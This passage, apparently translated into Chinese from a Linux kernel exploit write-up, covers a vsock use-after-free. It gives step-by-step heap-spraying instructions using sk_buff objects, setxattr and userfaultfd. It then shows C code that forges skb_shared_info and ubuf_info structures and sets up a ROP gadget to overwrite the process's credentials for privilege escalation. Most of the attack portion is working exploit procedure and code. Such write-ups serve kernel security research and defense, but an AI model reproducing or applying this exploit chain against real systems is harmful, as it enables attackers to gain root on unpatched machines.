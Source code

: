 1.使用socket(AF_INET, SOCK_DGRAM, IPPROTO_UDP)創建一個客戶端套接字和32個服務器套接字

2.在用戶空間中準備一個2800字節的緩衝區，並用0x42對其memset()

3.用sendto()將這個緩衝區從客戶端套接字發送到每個服務器套接字，用於在kmalloc-4k中創建sk_buff對象。在每個可用的CPU上使用\`sched_setaffinity()

4.對vsock_sock執行任意讀取過程

5.計算可能的sk_buff內核地址為sk_memcg加4096(kmalloc-4k的下一個元素)

6.對這個可能的sk_buff地址執行任意讀

7.如果在網絡數據的位置找到0x42424242424242lu，則找到真正的sk_buff，進入步驟8。否則，在可能的sk_buff地址上加4096，轉到步驟6

8.sk_buff上執行32個pthreads的setxattr()&userfaultfd()堆噴射，並把它們掛在pthread_barrier上

9.對sk_buff內核地址進行任意釋放

10.調用pthread_barrier_wait()，執行32個setxattr()覆蓋skb_shared_info的堆噴pthreads

11.使用recv()接收服務器套接字的網絡消息。 </translate>

<translate>

通過skb_shared_info 進行任意寫
--------------------------------

</translate>

<translate> 以下是覆蓋sk_buff對象的有效payload： </translate>

    #define SKB_SIZE        4096
    #define SKB_SHINFO_OFFSET    3776
    #define MY_UINFO_OFFSET        256
    #define SKBTX_DEV_ZEROCOPY    (1 << 3)
    void prepare_xattr_vs_skb_spray(void)
    {
        struct skb_shared_info *info = NULL;

        xattr_addr = spray_data + PAGE_SIZE * 4 - SKB_SIZE + 4;

        /* Don't touch the second part to avoid breaking page fault delivery */
        memset(spray_data, 0x0, PAGE_SIZE * 4);

        info = (struct skb_shared_info *)(xattr_addr + SKB_SHINFO_OFFSET);
        info->tx_flags = SKBTX_DEV_ZEROCOPY;
        info->destructor_arg = uaf_write_value + MY_UINFO_OFFSET;

        uinfo_p = (struct ubuf_info *)(xattr_addr + MY_UINFO_OFFSET);

<translate> skb_shared_info駐留在噴射數據中，正好在偏移量SKB_SHINFO_OFFSET處，即3776字節。 skb_shared_info.destructor_arg指針存儲了struct ubuf_info的地址。因為被攻擊的sk_buff的內核地址是已知的，所以能在網絡緩衝區的MY_UINFO_OFFSET處創建了一個假的ubuf_info。下面是有效payload的佈局： </translate>

![](T0185ccbf9f025c74da.png "T0185ccbf9f025c74da.png")

<translate> 下面講講destructor_arg 回調: </translate>

     /*
         * A single ROP gadget for arbitrary write:
         *   mov rdx, qword ptr [rdi + 8] ; mov qword ptr [rdx + rcx*8], rsi ; ret
         * Here rdi stores uinfo_p address, rcx is 0, rsi is 1
         */
        uinfo_p->callback = ARBITRARY_WRITE_GADGET + kaslr_offset;
        uinfo_p->desc = owner_cred + CRED_EUID_EGID_OFFSET; /* value for "qword ptr [rdi + 8]" */
        uinfo_p->desc = uinfo_p->desc - 1; /* rsi value 1 should not get into euid */

